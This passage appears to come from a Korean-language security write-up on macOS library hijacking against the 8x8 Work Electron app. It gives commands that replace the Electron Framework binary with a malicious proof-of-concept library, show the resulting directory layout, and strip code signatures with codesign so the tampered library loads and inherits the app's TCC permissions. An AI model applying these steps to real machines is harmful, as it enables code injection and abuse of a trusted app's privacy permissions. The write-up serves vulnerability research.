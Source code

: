 
<br>


이후에 애플리케이션이 악성 라이브러리를 로드하도록 원본 라이브러리가 위치했던 경로로 변경해준다.


{% raw %}
```markdown
$ mv /Users/lourcode/Library/Developer/Xcode/DerivedData/poc-eoopekezczbnvlgrpcigqhnhqgkn/Build/Products/Debug/poc.framework/Versions/A/poc /Applications/8x8\ Work.app/Contents/Frameworks/Electron\ Framework.framework/Versions/A/Electron\ Framework
```
{% endraw %}


최종적으로 디렉토리 구조는 다음과 같이 되어야 한다.


{% raw %}
```bash
$ tree
├── Electron Framework -> Versions/Current/Electron Framework
├── Helpers -> Versions/Current/Helpers
├── Libraries -> Versions/Current/Libraries
├── Resources -> Versions/Current/Resources
└── Versions
    ├── A
    │   ├── Electron Framework # 변조된 악성 라이브러리
    │   ├── Helpers
    │   │   └── chrome_crashpad_handler
    │   ├── Libraries
						...
    │   ├── Resources
    │   │   ...
    │   ├── _CodeSignature
    │   └── _Electron Framework # 원본 라이브러리
    └── Current -> A
```
{% endraw %}

1. 추가 작업

악성 라이브러리에 대한 Libary Validation 관련 작업을 수행하지 않았으므로 현재 상태에서 애플리케이션을 실행하게 되면 라이브러리 로드가 실패하게 된다.


따라서 악성 라이브러리 및 원본 라이브러리의 코드 서명을 삭제해주어야 한다.


이는 라이브러리에 대한 서명을 제거하는 것이므로 애플리케이션의 TCC 권한에는 영향을 주지 않는다.


만약 Library Validation이 활성화 되어 있었을 경우에는 코드 서명을 제거한 라이브러리는 로드되지 않았을 것이다.


{% raw %}
```bash
$ codesign --remove-signature ./Electron\ Framework
$ codesign --remove-signature ./_Electron\ Framework
```
{% endraw %}
